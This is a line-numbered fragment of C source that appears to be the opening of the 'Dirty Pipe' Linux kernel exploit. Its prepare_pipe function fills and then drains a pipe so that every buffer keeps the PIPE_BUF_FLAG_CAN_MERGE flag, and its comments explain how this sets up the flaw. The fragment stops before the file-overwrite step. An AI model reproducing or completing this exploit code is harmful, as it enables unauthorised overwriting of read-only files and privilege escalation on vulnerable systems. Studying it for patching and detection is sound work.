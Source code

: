       5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    
      12. #endif
    
      13.   14. /**
    
      15.  * Create a pipe where all "bufs" on the pipe_inode_info ring have the
    
      16.  * PIPE_BUF_FLAG_CAN_MERGE flag set.
    
      17.  */
    
      18. static void prepare_pipe(int p[2])
    
      19. {
    
      20.     if (pipe(p)) abort();
    
      21.   22.     const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    
      23.     static char buffer[4096];
    
      24.   25.     /* fill the pipe completely; each pipe_buffer will now have
    
      26.        the PIPE_BUF_FLAG_CAN_MERGE flag */
    
      27.     for (unsigned r = pipe_size; r > 0;) {
    
      28.         unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    
      29.         write(p[1], buffer, n);
    
      30.         r -= n;
    
      31.     }
    
      32.   33.     /* drain the pipe, freeing all pipe_buffer instances (but
    
      34.        leaving the flags initialized) */
    
      35.     for (unsigned r = pipe_size; r > 0;) {
    
      36.         unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    
      37.         read(p[0], buffer, n);
    
      38.         r -= n;
    
      39.     }
    
      40.   41.     /* the pipe is now empty, and if somebody adds a new
    
      42.        pipe_buffer without initializing its "flags", the buffer
    
      43.        will be mergeable */
    